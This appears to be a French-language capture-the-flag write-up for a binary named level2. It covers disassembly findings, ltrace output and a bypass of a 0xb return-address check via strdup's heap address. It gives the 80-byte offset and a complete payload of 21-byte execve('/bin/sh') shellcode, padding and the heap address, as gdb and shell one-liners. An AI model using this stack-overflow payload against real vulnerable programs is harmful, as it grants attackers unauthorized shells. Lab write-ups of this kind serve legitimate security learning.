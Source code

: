 # level2

On disas et on voit qu'on a un main qui ne fait pas grand chose et qui call la fonction `p()`

La fonction `p()` verifie si l'adresse de retour contient 0xb

adresse system : `0xb7e6b060`

Pas bon du tout

strdup : heap retourne une adresse differente de 0xb

adresse return strdup : `0x804a008`

Peut-etre quelque chose a faire avec le retour de strdup ?

```
$> ltrace ./level2

__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550,0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)         = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5
) = 0xbffff6fc
puts("")                   = 1
strdup("")                 = 0x0804a008
```


shell code /bin/sh

`http://shell-storm.org/shellcode/files/shellcode-575.html`

Ok donc maintenant qu'on a ce shell code qui fait un appel system de `execve("/bin/sh")`

Il va falloir savoir quoi en faire et comment l'exploiter

On sait qu'on peut faire un BoF avec gets et on sait qu'on doit utiliser le retour de strdup sinon le programme rentre dans la comparaison avec 0xb et exit

L'utilisation du heap via strdup() permet de contourner la protection de la stack

On modifie `ebp+4` avec l'adresse de retour de strdup pour que le flux d'execution du retour de la fonction main pointe vers notre shell code

L'execution de code en memoire etant active nous pouvons donc executer le shell code

`ebp+4` etant toujours l'adresse de retour de la frame actuelle

Il nous faut notre offset pour modifier `ebp+4`

`https://wiremask.eu/tools/buffer-overflow-pattern-generator/`

Offset 80

Niquel, maintenant on sait que notre shell code fait 21

On soustrait 21 a 80 = 59

On aura un padding de 59 bytes apres notre shell code avant d'ecrire l'adresse de retour de strdup

On va mettre notre shell code au debut du payload etant donne que l'adresse de retour est un pointeur sur notre commande

Donc pour resume 

`payload = shellcode + padding 59 + addr retour strdup`

Testons tout ca :

Avec gdb
```
r < <(python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"')
```

en ligne de commande
```
(python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"'; cat) | ./level2 
```
